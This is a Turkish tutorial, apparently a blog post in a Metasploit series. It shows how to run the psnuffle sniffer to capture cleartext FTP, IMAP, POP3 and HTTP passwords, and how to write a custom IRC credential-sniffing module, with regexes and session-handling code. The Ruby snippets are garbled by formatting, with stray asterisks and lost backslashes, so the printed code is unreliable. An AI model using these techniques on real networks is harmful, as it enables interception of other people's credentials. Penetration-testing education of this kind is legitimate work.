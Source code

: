 ```yaml
---
draft: false
title: MSF İçinde Parola Dinleme
linkTitle: Parola Dinleme
weight: 120
translationKey: password-listening-in-msf
date: 2017-05-16T12:56:00+03:00
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))
description: Metasploit kullanarak, ağda bulunan pop3, imap, ftp ve HTTP protokolleri üzerinden gönderilen parolaları dinleyebilirsiniz. Bu amaçla ‘psnuffle‘ modülü bulunmaktadır.
url: /tr/msf-icinde-parola-dinleme/
featured_image: /images/metasploit.jpg
categories:
    - Metasploit Framework
tags:
    - cybersecurity
    - metasploit framework
---
```

Metasploit kullanarak, ağda bulunan pop3, imap, ftp ve HTTP protokolleri üzerinden gönderilen parolaları dinleyebilirsiniz. Bu amaçla ‘psnuffle‘ modülü bulunmaktadır.

`psnuffle` modülü, neredeyse hiçbir ayarlama yapmaya gerek kalmadan kullanılabilir. İsterseniz dışarıdan PCAP dosyası ithal edebilirsiniz. Buradaki örnekte, ayarlar olduğu gibi kullanılacaktır.
```bash
msf > use auxiliary/sniffer/psnuffle
msf auxiliary(psnuffle) > show options

Module options:

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   FILTER                      no        The filter string for **capturing traffic
   INTERFACE                   no        The name of the interface
   PCAPFILE                    no        The name of the PCAP capture file to process
   PROTOCOLS  all              yes       A comma-delimited list of protocols to sniff or "all".
   SNAPLEN    65535            yes       The number of bytes to capture
   TIMEOUT    1                yes       The number of seconds to wait for **new data

msf auxiliary(psnuffle) > run
> Auxiliary module execution completed
> Loaded protocol FTP from /usr/share/metasploit-framework/data/exploits/psnuffle/ftp.rb...
> Loaded protocol IMAP from /usr/share/metasploit-framework/data/exploits/psnuffle/imap.rb...
> Loaded protocol POP3 from /usr/share/metasploit-framework/data/exploits/psnuffle/pop3.rb...
> Loaded protocol URL from /usr/share/metasploit-framework/data/exploits/psnuffle/url.rb...
> Sniffing traffic.....
> Successful FTP Login: 192.168.1.100:21-192.168.1.5:48614 > victim / pass (220 3Com 3CDaemon FTP Server Version 2.0)
```

Gördüğünüz gibi FTP protokolünde `victim` kullanıcı adı ve `pass` parolası ortaya çıkarıldı.

## Psnuffle Özelleştirme

İsterseniz, `psnuffle` aracını, varsayılan olarak dinlediği protokoller haricinde diğer protokoller için de tasarlayabilirsiniz.

Bu özelleştirme işlemi için yapılacak modüller, data/exploits/psnuffle klasörünün içine kaydedilmelidir. Yeni bir modül geliştirmek için öncelikle var olan bir modülü şablon olarak kullanabiliriz.

Aşağıda, POP3 modülünün Düzenli ifadeler kısmı görülmektedir. Bu düzenli ifadeler, dinleme esnasında hangi tür şablona uyan verilerin dikkate alınacağını tanımlamaktadır. Bir miktar karışık gibi görünebilir. Ancak düzenli ifadeleri öğrenmenizi tavsiye ediyoruz. Her yerde karşınıza çıkar ve öğrenirseniz, işinizi kolaylaştırırlar.
```bash
self.sigs = {
:ok => /^(+OK[^n]*****)n/si,
:err => /^(-ERR[^n]*****)n/si,
:user => /^USERs+**([**^n]+)n/si,
:pass => /^PASSs+**([**^n]+)n/si,
:quit => /^(QUITs*****[^n]*****)n/si }
```

## IRC Modülü

Aşağıdaki örneklerde, IRC protokolü için yazılmış bir modülde olması gerekenleri görebilirsiniz.

Öncelikle, dikkate alınacak sinyal tiplerini tanımlayalım. Buradaki IRC komutlarından IDENTIFY, her IRC sunucu tarafından kullanılmamaktadır. En azında Freenode bu şekilde kullanır.
```bash
self.sigs = {
:user => /^(NICKs+[^n]+)/si,
:pass => /b(IDENTIFYs+[^n]+)/si,}
```

## Oturum Tanımlama (Session)

Her modül için mutlaka tanımlanması gereken kısım, hangi Portlar ile ilgileneceğidir. Bu tanımlama için aşağıdaki şablonu kullanabilirsiniz.
```bash
**return if **not pkt[:tcp] # We don't want to handle anything other than tcp
**return if** (pkt[:tcp].src_port **!=** 6667 and pkt[:tcp].dst_port **!=** 6667) # Process only packet on port 6667

#Ensure that the session hash stays the same for both way of communication
**if** (pkt[:tcp].dst_port **==** 6667) # When packet is sent to server
s = find_session("#{pkt[:ip].dst_ip}:#{pkt[:tcp].dst_port}-#{pkt[:ip].src_ip}:#{pkt[:tcp].src_port}")
**else** # When packet is coming from the server
s = find_session("#{pkt[:ip].src_ip}:#{pkt[:tcp].src_port}-#{pkt[:ip].dst_ip}:#{pkt[:tcp].dst_port}")
end
```

Şimdi ise `self.sigs` bölümünde şablonu oluşturulan türde bir paket yakalandığında ne yapılacağını ayarlamanız gerekmekte. Bunun için de aşağıdaki şablonu kullanabilirsiniz.
```bash
**case** matched
when :user # when the pattern "/^(NICKs+[^n]+)/si" is matching the packet content
s[:user]=matches #Store the name into the session hash s for later use
# Do whatever you like here... maybe a puts if you need to
when :pass # When the pattern "/b(IDENTIFYs+[^n]+)/si" is matching
s[:pass]=matches # Store the password into the session hash s as well
**if** (s[:user] and s[:pass]) # When we have the name and the pass sniffed, print it
print "-> IRC login sniffed: #{s[:session]} >> username:#{s[:user]} password:#{s[:pass]}n"
end
sessions.delete(s[:session]) # Remove this session because we dont need to track it anymore
when nil
# No matches, don't do anything else # Just in case anything else is matching...
sessions[s[:session]].merge!**({**k => matches**})** # Just add it to the session object
end
```

Tebrikler kendi modülünüzü yazdınız.
